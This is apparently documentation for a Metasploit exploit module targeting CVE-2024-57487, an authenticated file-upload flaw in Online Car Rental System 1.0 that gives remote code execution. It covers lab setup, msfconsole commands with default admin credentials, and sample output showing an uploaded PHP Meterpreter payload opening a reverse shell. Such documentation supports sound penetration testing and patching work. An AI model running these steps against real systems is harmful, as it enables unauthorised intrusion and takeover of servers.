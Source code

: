 # Car Rental System 1.0 Authenticated File Upload RCE

## Vulnerable Application

The **Online Car Rental System 1.0** is vulnerable to **Authenticated Remote Code Execution (RCE)** due to an insecure file upload mechanism. Specifically, the `changeimage1.php` endpoint in the admin panel does not validate uploaded file types, allowing authenticated users to upload arbitrary PHP scripts. These scripts can be accessed and executed via a predictable file path, leading to full remote code execution.

This module exploits the vulnerability by authenticating to the admin panel, uploading a malicious PHP payload using the vulnerable endpoint, and executing it to gain remote access.

- **CVE**: [CVE-2024-57487](https://nvd.nist.gov/vuln/detail/CVE-2024-57487)
- **Author**: Aaryan Golatkar
- **Disclosure Date**: 13/01/2025

---

## Verification Steps

### Vulnerable Application Installation Setup

#### For Windows:
1. Start Apache and MySQL via the **XAMPP Control Panel**.
2. Extract the Online Car Rental System 1.0 source code.
3. Place the extracted folder inside `htdocs` (e.g., `C:\xampp\htdocs\carrental`).
4. Navigate to `http://localhost/phpmyadmin` in your browser.
5. Create a database (e.g., `carrental_db`), and import the SQL dump (`carrental.sql`) provided in the `database` directory.
6. Visit `http://localhost/carrental/` to verify installation.

#### For Linux:
1. Start services: `sudo systemctl start apache2 && sudo systemctl start mysql`
2. Install PHPMyAdmin: `sudo apt install phpmyadmin -y`
3. Edit `/etc/apache2/apache2.conf` and append:
   ```
   Include /etc/phpmyadmin/apache.conf
   ```
4. Extract the project into `/var/www/html/`
5. Follow the same steps as Windows from here onward.

---

## Exploit Module Usage

### Start msfconsole and load the exploit:

```bash
msfconsole
use exploit/multi/http/carrental_fileupload_rce
```

### Set the required options:

```bash
set rhosts <target_ip>
set rport <port>
set targeturi /carrental
set username <admin_username>      # Default: admin
set password <admin_password>      # Default: Test@12345
set lhost <your_ip>
set lport <your_port>
```

---

## Checking Target Vulnerability

```bash
check
```

If vulnerable, you will see:

```
[+] <IP> The target appears to be the Online Car Rental System.
```

---

## Launching the Exploit

```bash
exploit
```

If successful, you will receive a Meterpreter shell.

---

## Example Scenarios

```bash
msf exploit(multi/http/carrental_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 192.168.1.103:80 - The target appears to be the Online Car Rental System.

msf exploit(multi/http/carrental_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Uploading PHP Meterpreter payload as WxAqV7.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /carrental/admin/img/vehicleimages/WxAqV7.php...
[*] Sending stage (40004 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.104:4444 -> 192.168.1.103:60615)

meterpreter > sysinfo
Computer    : DESKTOP-1234
OS          : Windows NT 10.0 build 19045 (Windows 10)
Meterpreter : php/windows
```

---

## Options

| Option       | Required | Description                                           |
|--------------|----------|-------------------------------------------------------|
| `TARGETURI`  | Yes      | The base path to the Car Rental System (e.g., `/carrental`) |
| `USERNAME`   | Yes      | Admin username (default: `admin`)                    |
| `PASSWORD`   | Yes      | Admin password (default: `Test@12345`)               |
| `RHOSTS`     | Yes      | The target IP address                                |
| `RPORT`      | Yes      | The target web server port (default: 80)             |
| `LHOST`      | Yes      | The local host to receive the reverse shell          |
| `LPORT`      | Yes      | The local port to receive the reverse shell          |

---